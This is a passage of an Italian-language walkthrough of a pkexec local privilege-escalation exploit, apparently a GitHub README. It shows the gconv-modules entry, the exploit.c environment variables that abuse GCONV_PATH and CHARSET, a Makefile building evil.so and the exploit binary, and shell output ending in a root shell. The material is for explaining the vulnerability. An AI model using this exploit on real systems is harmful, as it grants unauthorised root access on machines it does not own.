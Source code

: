 Questo è un semplice file di testo che spiega al sistema dove si trova il nostro modulo finto (`evil.so`).

```
module  INTERNAL  BRUH//  evil   2
```

Questa riga serve a collegare il nome “finto” del tipo di caratteri (`CHARSET=BRUH`) alla libreria `evil.so`.

### `exploit.c`

Questo programma (o script) crea le cartelle e i file necessari, copia tutto al posto giusto, e poi lancia `pkexec` con alcune variabili d’ambiente modificate:

```c
char *envp[] = {
    "evildir",       // nome della cartella dei moduli
    "GCONV_PATH=.",  // dice al sistema di cercare moduli nella cartella corrente
    "SHELL=BRUH",    // richiesto da pkexec, inganna il controllo
    "CHARSET=BRUH",  // charset finto che attiva il nostro modulo
    NULL
};
```

Il programma poi esegue `pkexec`, e il sistema, tentando di stampare un errore in "ryaagard", cerca un modulo di conversione in `GCONV_PATH=.` e trova proprio la nostra libreria `evil.so`. A quel punto, la esegue **come root**, e noi otteniamo una shell root.

## 4.3 Compilazione e Esecuzione Exploit

Per compilare tutti i file necessari, utilizziamo il framework `Make`, che ci permette di automatizzare il processo di compilazione tramite un file chiamato `Makefile`. Questo file contiene le istruzioni su come compilare ciascun file sorgente.

```makefile
all:
	gcc -shared -o evil.so -fPIC evil-so.c
	gcc exploit.c -o exploit

clean:
	rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```

### Compilazione

```bash
make all
```

### Esecuzione

```bash
user@user:~$ 
user@user:~$ 
user@user:~$ id
uid=1000(miley) gid=1000(miley) groups=1000(miley)
user@user:~$ ./exploit
#
id
uid=0(root) gid=0(root) groups=0(root)
#
```
